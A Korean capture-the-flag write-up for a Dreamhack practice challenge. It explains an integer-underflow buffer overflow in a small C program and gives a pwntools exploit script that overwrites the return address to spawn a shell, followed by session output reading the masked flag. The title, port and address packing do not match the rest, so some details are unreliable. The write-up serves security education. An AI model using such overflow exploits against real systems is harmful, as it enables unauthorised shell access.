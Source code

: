 # tcache_dup

- [문제 페이지](https://dreamhack.io/wargame/challenges/25)

## 문제 해설
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

해당 코드를 보면, size를 읽어 size의 -1을 read하고 있다.

이때, size는 buf의 사이즈 이상으로 정할 수 없기 때문에 size를 buf의 사이즈 이상으로 하여 bof를 일으킬 수 없다.

하지만, read의 size는 unsigned형태로 들어가기 때문에 size에 0을 넣으면, rbp-0x8위치에 있는, ret주소를 get_shell 주소로 변조할 수있다.

이를 파이썬 코드로 작성하면

```python
from pwn import *

#p = process("./sint")
p = remote("host1.dreamhack.games", 18484)

p.sendlineafter(b"Size: ", b'0')
p.sendlineafter(b'Data: ', b'a'*0x100 + p64(0x8048659))

p.interactive()
```
이고, 이를 실행하면

```
[+] Opening connection to host1.dreamhack.games on port 13825: Done
[*] Switching to interactive mode
$ ls
flag
sint
$ cat flag
DH{**************************************************************************}
$ 
```

잘 실행됨을 알 수 있다.

![success](image.png)